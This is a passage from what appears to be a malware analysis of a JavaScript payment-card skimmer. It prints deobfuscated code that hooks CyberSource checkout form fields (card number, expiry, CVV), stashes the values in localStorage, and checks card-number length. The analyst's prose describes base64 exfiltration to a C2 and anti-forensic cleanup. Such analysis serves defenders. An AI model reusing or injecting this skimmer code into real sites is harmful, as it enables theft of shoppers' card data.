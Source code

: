 ```js
     }
     array_ID[_index]["addEventListener"]("change",function(arg)
     {
      array_Data[_index]=prepare_req(array_ID[_index]["value"]);
      arg["stopPropagation"]();
     });
    });
    var timer2=_A(()=>
    {
     if(Push_Keys(array_Data,array_header))
     {
      _CA(timer2);
      array_Data=Parse_Data_Array(array_Data,array_1);
      var data_json=JSON["stringify"](array_Data);
      localStorage["setItem"]("wc_info",data_json);
     }
    },0x12c);
   }
  },0x7d0);
 },0x12c);
   ``` 

<h6>The final code check if the last operation has done and that the cybersource solution are present on the page. If exists, this parse the data of fields of the form and add to the arrays. Once done, this convert to JSON, push in base64 the content and send a request to URL by the C2. This doesn't wait a reply, this only for sending the data to the C2 by URL requests, the group use a regex for extract all data from theirs logs of theirs C2 domains. Once performed, the script delete the informations on the localstorage as anti-forensic method.</h6>

  ```js
  var timer3=_A(function()
  {
   if(!Valid_Check()&&localStorage["getItem"]("wc_info")&&!!document["getElementById"]("cybersourcedc-transparent-form"))
   {
    _CA(timer3);
    array_Data=JSON["parse"](localStorage["getItem"]("wc_info"));
    array_storage={};
    array_1=['pp','zz','ll',"pii"];
    mathRand3=["md_cybersourcedc_cc_number","md_cybersourcedc_expiration","md_cybersourcedc_expiration_yr","md_cybersourcedc_cc_cid"];
    _S(()=>
    {
     mathRand3["forEach"](function(IDtoFind,index)
     {
      array_ID[index]=document["getElementById"](IDtoFind);
      if(array_ID[index]["value"]!=''){ array_storage[index]=prepare_req(array_ID[index]["value"]); }
      array_ID[index]["addEventListener"]("change",function(arg)
      {
       array_storage[index]=prepare_req(array_ID[index]["value"]);
       arg["stopPropagation"]();
      });
     });
    },0x7d0);
    var timer4=_A(()=>
    {
     if(Push_Keys(array_storage,mathRand3))
     {
      array_storage=Parse_Data_Array(array_storage,array_1);
      if(data_storage(array_storage['pp'])["length"]>=15&&data_storage(array_storage["pii"])["length"]>=3)
      {
       _CA(timer4);
  ```